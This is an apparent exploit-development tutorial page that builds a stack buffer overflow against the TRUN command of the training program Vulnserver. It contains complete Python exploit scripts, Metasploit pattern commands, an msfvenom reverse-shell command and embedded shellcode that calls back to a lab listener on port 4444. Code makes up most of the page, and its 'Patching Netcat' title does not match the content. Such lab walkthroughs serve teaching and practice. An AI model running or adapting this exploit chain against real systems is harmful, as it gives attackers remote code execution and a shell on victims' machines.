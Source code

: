 ```yaml
---
title: "Patching Netcat... with Shellcode"
layout: home
permalink: /backdoor/patchnetcat/
collection: backdoor
sidebar:
  nav: "main"
entries_layout: grid
classes: wide
---
```


Begin by using the below proof of concept script, developed by using the SPIKE fuzzer to identify a hole in the Vulnserver TRUN command.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: POC
import socket
import os
import sys

crash="A"*5000

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running this POC script against Vulnserver produces the same result in the OllyDbg debugger as our previous SPIKE fuzzing attempts. As a very nice bonus, the input we sent has been used to control the value of a very important register in the CPU – the EIP (Extended Instruction Pointer) register. Notice how the EIP register contains the value 41414141?

![trun-eip-overwrite-media-01](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-01.png)

Additional testing proves that a 2500 byte buffer will also cause the Vulnserver application to crash due to an access violation. Create a 2500 byte patterned string to identify which part of the buffer is being stored in the EIP.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2500
```
Insert the 2500 character pattern into the Vulnserver TRUN POC Python Script.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Pattern
import socket
import os
import sys

crash="Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3>

buffer="TRUN /.:/"
buffer+=crash

print "Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Running the Vulnserver TRUN Pattern Python Script against the target system shows that the following pattern value is being stored in EIP.

<!--- <p align="center">
  <img src="/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png">
  </p>
--->

![trun-eip-overwrite-media-02 align="center"](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-02.png)

EIP address is 386F4337. Use the Metasploit pattern offset utility to identify where the bytes are located in the 2500 byte buffer.

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 2500 -q 386F4337
```

![trun-eip-overwrite-media-03](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-03.png)

An exact match was found at offset 2003 bytes.  Modify the buffer in the POC script to now send 2003 "A" characters, 4 "B" characters, and 1993 "C" characters; this should overwrite EIP with 4 "B" characters while retaining a 4000 byte buffer size.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Control
import socket
import os
import sys

crash="A"*2003 + "B"*4 + "C"*1993

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```
Running the updated script against the Vulnserver crashes the server and produces the following EIP output in OllyDbg.

![trun-eip-overwrite-media-04](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-04.png)

![trun-eip-overwrite-media-05](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-05.png)

The crash buffer has successfully overwritten EIP with four (4) "B" "\x42" characters; we now have control over EIP. The next step is to identify any bad characters the might not work for our shellcode.

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Bad Characters
import socket
import os
import sys

badchar=("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

crash="A"*2003 + "B"*4 + badchar  #"C"*1993

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```
![trun-eip-overwrite-media-06](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-06.png)

From looking at the output, we can tell that there are no bad characters other than \x00. Generate a reverse shell using msfvenom and insert it into the Vulnserver TRUN Python Script and proceed it with a 15 character NOP sled.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.83.122 LPORT=4444 -b "\x00" -f c
```

```py
#!/usr/bin/python
# Vulnserver TRUN Python Script: Shell
import socket
import os
import sys

shellcode=("\xda\xc5\xd9\x74\x24\xf4\x5d\xbb\xcc\xa2\xea\x74\x33\xc9\xb1"
"\x52\x83\xed\xfc\x31\x5d\x13\x03\x91\xb1\x08\x81\xd5\x5e\x4e"
"\x6a\x25\x9f\x2f\xe2\xc0\xae\x6f\x90\x81\x81\x5f\xd2\xc7\x2d"
"\x2b\xb6\xf3\xa6\x59\x1f\xf4\x0f\xd7\x79\x3b\x8f\x44\xb9\x5a"
"\x13\x97\xee\xbc\x2a\x58\xe3\xbd\x6b\x85\x0e\xef\x24\xc1\xbd"
"\x1f\x40\x9f\x7d\x94\x1a\x31\x06\x49\xea\x30\x27\xdc\x60\x6b"
"\xe7\xdf\xa5\x07\xae\xc7\xaa\x22\x78\x7c\x18\xd8\x7b\x54\x50"
"\x21\xd7\x99\x5c\xd0\x29\xde\x5b\x0b\x5c\x16\x98\xb6\x67\xed"
"\xe2\x6c\xed\xf5\x45\xe6\x55\xd1\x74\x2b\x03\x92\x7b\x80\x47"
"\xfc\x9f\x17\x8b\x77\x9b\x9c\x2a\x57\x2d\xe6\x08\x73\x75\xbc"
"\x31\x22\xd3\x13\x4d\x34\xbc\xcc\xeb\x3f\x51\x18\x86\x62\x3e"
"\xed\xab\x9c\xbe\x79\xbb\xef\x8c\x26\x17\x67\xbd\xaf\xb1\x70"
"\xc2\x85\x06\xee\x3d\x26\x77\x27\xfa\x72\x27\x5f\x2b\xfb\xac"
"\x9f\xd4\x2e\x62\xcf\x7a\x81\xc3\xbf\x3a\x71\xac\xd5\xb4\xae"
"\xcc\xd6\x1e\xc7\x67\x2d\xc9\x28\xdf\x7e\x73\xc1\x22\x80\x92"
"\x4d\xaa\x66\xfe\x7d\xfa\x31\x97\xe4\xa7\xc9\x06\xe8\x7d\xb4"
"\x09\x62\x72\x49\xc7\x83\xff\x59\xb0\x63\x4a\x03\x17\x7b\x60"
"\x2b\xfb\xee\xef\xab\x72\x13\xb8\xfc\xd3\xe5\xb1\x68\xce\x5c"
"\x68\x8e\x13\x38\x53\x0a\xc8\xf9\x5a\x93\x9d\x46\x79\x83\x5b"
"\x46\xc5\xf7\x33\x11\x93\xa1\xf5\xcb\x55\x1b\xac\xa0\x3f\xcb"
"\x29\x8b\xff\x8d\x35\xc6\x89\x71\x87\xbf\xcf\x8e\x28\x28\xd8"
"\xf7\x54\xc8\x27\x22\xdd\xf8\x6d\x6e\x74\x91\x2b\xfb\xc4\xfc"
"\xcb\xd6\x0b\xf9\x4f\xd2\xf3\xfe\x50\x97\xf6\xbb\xd6\x44\x8b"
"\xd4\xb2\x6a\x38\xd4\x96")

crash="A"*2003 + "\xAF\x11\x50\x62" + "\x90"*15 + shellcode

buffer="TRUN /.:/"
buffer+=crash

print "[*] Sending evil TRUN request to VulnServer, OS-42279"
expl = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
expl.connect(("192.168.83.128", 9999))
expl.send(buffer)
expl.close()
```

Launch Vulnserver.exe without attaching it to OllyDbg and launch the Vulnserver TRUN Python Script.

![trun-eip-overwrite-media-07](/screenshots/vulnserver/trun-eip-overwrite/trun-eip-overwrite-media-07.png)
